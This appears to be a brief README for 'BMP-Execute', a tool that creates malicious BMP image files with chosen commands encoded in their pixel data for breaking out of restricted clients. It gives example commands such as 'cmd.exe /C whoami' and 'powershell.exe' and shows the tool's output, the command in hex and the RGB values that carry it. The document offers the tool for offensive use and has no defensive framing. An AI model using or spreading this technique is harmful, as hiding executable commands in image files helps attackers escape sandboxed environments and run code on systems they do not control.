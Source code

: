 # BMP-Execute
Create malicious BMP files for client breakous

Can specify any commands you like eg "cmd.exe /C whoami"

```
./BMP_Execute.py -c powershell.exe -o test
Command is  powershell.exe
Output file is  test
Cmd in hex is:  b'706f7765727368656c6c2e657865'
RGB = (10, 0, 0)
RGB = (13, 10, 13)
RGB = (119, 111, 112)
RGB = (115, 114, 101)
RGB = (108, 101, 104)
RGB = (101, 46, 108)
RGB = (0, 101, 120)```
